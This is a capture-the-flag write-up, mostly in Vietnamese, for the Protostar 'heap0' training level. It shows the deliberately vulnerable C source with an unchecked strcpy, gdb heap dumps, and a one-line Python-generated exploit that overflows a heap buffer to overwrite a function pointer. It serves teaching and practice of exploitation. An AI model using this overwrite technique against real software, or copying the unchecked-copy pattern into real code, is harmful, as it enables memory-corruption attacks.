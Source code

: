 # HEAP ZERO

## About

This level introduces heap overflows and how they can influence code flow.

This level is at /opt/protostar/bin/heap0

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();

}
```

## Solutions

`HEAP ZERO` cho chúng ta thấy cách mà việc heap overflows gây ảnh hưởng tới các biến được cấp phát động và từ đó dẫn tới thay đổi luồng thực thi code.

Bộ cấp phát bộ nhớ được sử dụng trong Protostar là `glibc's malloc`, dựa trên `Doug Lea's malloc` (hay gọi tắt là `dlmalloc`).

Nhìn vào đoạn mã của chương trình sau

```
...
struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

int main(){
...
struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;
...
}
```

Ta thấy được khai báo hai con trỏ theo kiểu dữ liệu được định nghĩa với 1 kiểu dữ liệu `data` gồm mảng ký tự `name[64]` và một kiểu `fp` gồm con trỏ hàm. Hai kiểu dữ liệu được cấp phát động, `f->fp = nowinner` được phân bổ như sau trong heap memory.

```
Khi chạy chương trình: $./heap0 aaaa
data is at 0x804a008, fp is at 0x804a050
level has not been passed

...
(gdb) x/100wx 0x804a000         <-- địa chỉ bắt đầu của heap
0x804a000:      0x00000000      0x00000049      0x00000000      0x00000000
0x804a010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a040:      0x00000000      0x00000000      0x00000000      0x00000011
0x804a050:      0x08048478      0x00000000      0x00000000      0x00020fa9
...

(gdb) p nowinner
$1 = {void (void)} 0x8048478 <nowinner>
```

Tiếp theo đó là strcpy(d->name, argv[1]); sẽ gây ra buffer overflow trên `d->name` và đủ lớn sẽ ghi đè con trỏ hàm `f->fp`. Độ dài đó là `0x804a050 - 0x804a008 = 0x48` và sau đó là địa chỉ hàm `winner()`.

```
(gdb) p winner
$1 = {void (void)} 0x8048464 <winner>
```

Tiến hành khai thác:

```
root@protostar:/opt/protostar/bin# ./heap0 $(python -c 'print "A" * 0x48 + "\x64\x84\x04\x08"')
data is at 0x804a008, fp is at 0x804a050
level passed
```

## Documents

<https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf>

<https://sourceware.org/glibc/wiki/MallocInternals>



